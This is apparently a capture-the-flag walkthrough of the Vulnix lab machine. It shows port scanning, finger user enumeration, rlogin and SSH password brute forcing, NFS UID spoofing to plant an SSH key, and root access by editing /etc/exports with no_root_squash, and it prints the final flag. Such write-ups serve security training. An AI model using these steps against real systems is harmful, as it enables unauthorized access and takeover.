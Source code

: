 ***Source: 10.0.0.16***

## ***NMAP***

    # nmap -sS -T4 -p- 10.0.0.16

    PORT      STATE SERVICE
    22/tcp    open  ssh
    25/tcp    open  smtp
    79/tcp    open  finger
    110/tcp   open  pop3
    111/tcp   open  rpcbind
    143/tcp   open  imap
    512/tcp   open  exec
    513/tcp   open  login
    514/tcp   open  shell
    993/tcp   open  imaps
    995/tcp   open  pop3s
    2049/tcp  open  nfs
    35002/tcp open  rt-sound
    40791/tcp open  unknown
    46589/tcp open  unknown
    52174/tcp open  unknown
    54563/tcp open  unknown

## ***FINGER***

    # msfconsle

    msf6 > use auxiliary/scanner/finger/finger_users

    msf6 auxiliary(scanner/finger/finger_users) > show options

    Module options (auxiliary/scanner/finger/finger_users):

    Name        Current Setting               Required  Description
    ----        ---------------               --------  -----------
    RHOSTS       10.0.0.16                    yes       The target host(s), see https://github.com/rapid7
                                                        /metasploit-framework/wiki/Using-Metasploit
    RPORT       79                            yes       The target port (TCP)
    THREADS     1                             yes       The number of concurrent threads (max one per hos
                                                        t)
    USERS_FILE  /usr/share/metasploit-framew  yes       The file that contains a list of default UNIX acc
                ork/data/wordlists/unix_user            ounts.
                s.txt

    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: backup
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: bin
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: daemon
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: games
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: gnats
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: irc
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: landscape
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: libuuid
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: list
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: lp
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: mail
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: dovecot
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: man
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: messagebus
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: news
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: nobody
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: postfix
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: proxy
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: root
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: sshd
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: sync
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: sys
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: syslog
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: user
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: dovenull
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: uucp
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: whoopsie
    [+] 10.0.0.16:79          - 10.0.0.16:79 - Found user: www-data

Possible logins: SSH, exec (512), rlogin(513), 

Brute forcing the rlogin service.

[513][rlogin] host: 10.0.0.16   login: root   password: 147852

## ***SSH***

Brute forcing using the user 'user'.

    # hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.16 -IV

    [22][ssh] target 10.0.0.16 - login "user" - pass "letmein"

After logging in, going to the directory '/home' we find another user 'vulnix'.

    $ ls -l

    drwxr-x---  3 user   user   4096 Apr  7 21:19 user
    drwxr-x---  2 vulnix vulnix 4096 Sep  2  2012 vulnix


We don't have permission to log into the directory.
Let's try to find SUID files on the machine.

    $ find / -perm /4000 2> /dev/null

    /sbin/mount.nfs
    /usr/sbin/uuidd
    /usr/sbin/pppd
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/openssh/ssh-keysign
    /usr/lib/pt_chown
    /usr/bin/mtr
    /usr/bin/sudo
    /usr/bin/newgrp
    /usr/bin/passwd
    /usr/bin/chfn
    /usr/bin/at
    /usr/bin/sudoedit
    /usr/bin/traceroute6.iputils
    /usr/bin/gpasswd
    /usr/bin/chsh
    /usr/bin/procmail
    /bin/ping6
    /bin/mount
    /bin/umount
    /bin/su
    /bin/ping
    /bin/fusermount

Possible solution:

Get access to the user 'vulnix' because it's user has an nfs share. After that link that share on our local machine and upload file in order to exploit and gain root shell.

    Local Machine:

    showmount -e 10.0.0.16
    Export list for 10.0.0.16:
    /home/vulnix *

    # mount -t nfs 10.0.0.16:/home/vulnix /tmp/vulnix/
    # cd /tmp/vulnix/
    cd: Permission denied: “/tmp/vulnix/”

After mounting the share on our local machine, we don't have access to it. We can bypass that by adding the user 'vulnix' with the same uid to our local machine.
The user 'vulnix' has the uid 2008. 

    useradd -u 2008 vulnix
    # su vulnix 
    $ id -a
    uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)

We now have access to the share.

In order to login into the remote machine as the user 'vulnix', we can create an .ssh directory and add our public ssh key to the 'authorized_hosts' file, after that we can login into the machine as the user 'vulnix'.

    $ pwd
    /tmp/vulnix

    $ mkdir .ssh
    $ touch .ssh/authorized_keys
    $ chmod 644 .ssh/authorized_keys
    $ cat ~/.ssh/id_rsa.pub > .ssh/authorized_keys

>

    # ssh vulnix@10.0.0.16
    $ id -a
    uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)

>

     $ sudo -ll

    Matching 'Defaults' entries for vulnix on this host:
        env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User vulnix may run the following commands on this host:

    Sudoers entry:
        RunAsUsers: root
        Commands:
            sudoedit /etc/exports
        RunAsUsers: root
        Commands:
            NOPASSWD: sudoedit /etc/exports

### ***OPTION 1:*** 
By being able to edit the /etc/exports file we are able to add the /root folder as a share.

    $ sudoedit /etc/exports

    /root *(rw,no_root_squash)

After mounting it to our local machine we are able to do the same thing we did with the user 'vulnix'. After adding our public key to the authorized_keys file we are able to login as the root user and read the final flag.

    # cat /root/trophy.txt 
    cc614640424f5bd60ce5d5264899c3be


### ***OPTION 2: (NOT FUN!!!)***
Downloading the dirtycow exploit from https://www.exploit-db.com/exploits/40839, and running it on the remote machine.